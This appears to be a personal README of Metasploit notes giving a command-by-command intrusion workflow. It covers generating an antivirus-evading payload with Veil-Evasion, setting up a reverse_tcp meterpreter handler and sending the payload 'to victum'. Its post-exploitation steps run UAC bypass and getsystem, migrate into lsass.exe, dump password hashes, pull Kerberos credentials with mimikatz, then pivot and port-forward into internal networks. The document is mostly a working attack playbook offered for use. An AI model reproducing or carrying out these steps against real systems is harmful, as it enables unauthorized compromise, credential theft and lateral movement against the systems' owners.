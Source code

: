 # Metasploit-Notes
Pre Exploitation:

Use /usr/share/veil-evasion to create undetected payload
use powershell/meterpreter/rev_tcp
set up port forwarding on your router to connect a port to your local machine
load auto_add_route

ls /usr/share/metasploit-framework/plugins

use exploit/multi/handler
show payloads
set payload windows/meterpreter/reverse_tcp
set lhost <your local ip>
set exitonsession false
exploit -j

send veil-evasion payload /root/veil-output/source/output.bat to victum



Post Exploitation:
sessions -i <session>
background
use exploits/windows/local/bypassuac 
use exploits/windows/local/bypassuac_inject
go to new session
getsystem
ps
migrate process to lsass.exe
hashdump
load mimikatz 
kerberos
if not using autoroute use command 'route add subnet netmask session#' -background -> route print -> make sure route has right session #
run arp_scanner -r <ip range>
run auxiliary/scanner/portscan/tcp to scan pivoted network
portfwd add -l 8000<localport> -p 80<remote port> -r <remote machine IP>
go to web browser and type in 127.0.0.1:8000
able to use this with ssh, telnet, etc.

** you can type 'load' or 'run' and hit tab complete to list extensions and modules**
